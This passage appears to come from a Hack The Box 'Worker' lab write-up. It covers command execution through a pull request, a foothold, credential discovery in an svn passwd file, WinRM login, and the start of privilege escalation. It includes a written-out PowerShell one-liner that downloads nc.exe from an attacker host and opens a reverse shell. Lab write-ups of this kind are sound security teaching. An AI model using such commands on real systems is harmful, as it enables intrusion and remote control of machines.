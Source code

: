 {% include image.html image_alt="ec3b4766.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/ec3b4766.png" %}

___Complete the pull request___

{% include image.html image_alt="5aec4fca.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/5aec4fca.png" %}

And we have remote command execution!

{% include image.html image_alt="62c88634.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/62c88634.png" %}

Remember our window of opportunity is short. Prepare the following command to transfer `nc.exe` to `C:\Windows\Temp` (default writeable folder) and launch a reverse shell immediately.

```
powershell /c iwr http://10.10.14.42/nc.exe -outf \windows\temp\cute.exe && start \windows\temp\cute.exe 10.10.14.42 1234 -e cmd.exe
```

## Foothold

{% include image.html image_alt="541132bb.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/541132bb.png" %}

Sweet.

### Getting `user.txt`

During enumeration of this account, I found the W: drive and `W:\svnrepos\www\conf\passwd`.

{% include image.html image_alt="6601d091.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/6601d091.png" %}

Incidentally, `robisl` is listed in `C:\Users` and is a member of the local group **Remote Management Users**, which means that I can log in remotely via WinRM, i.e. Evil-WinRM.

{% include image.html image_alt="d4bd7cbf.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/d4bd7cbf.png" %}

No surprise, the file `user.txt` is at `robisl`'s Desktop.

{% include image.html image_alt="3de9ef49.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/3de9ef49.png" %}

## Privilege Escalation

Besides being a member in the **Remote Management Users** group, `robisl` is also a member of the **Production** group. This means `robisl` is able to log in to `devops.worker.htb`.

{% include image.html image_alt="3af07d44.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/3af07d44.png" %}

More importanly, `robisl` is able to build!

{% include image.html image_alt="0cf483b4.png" image_src="/4bb7921f-c072-4837-84bf-a86cff0b3e17/0cf483b4.png" %}
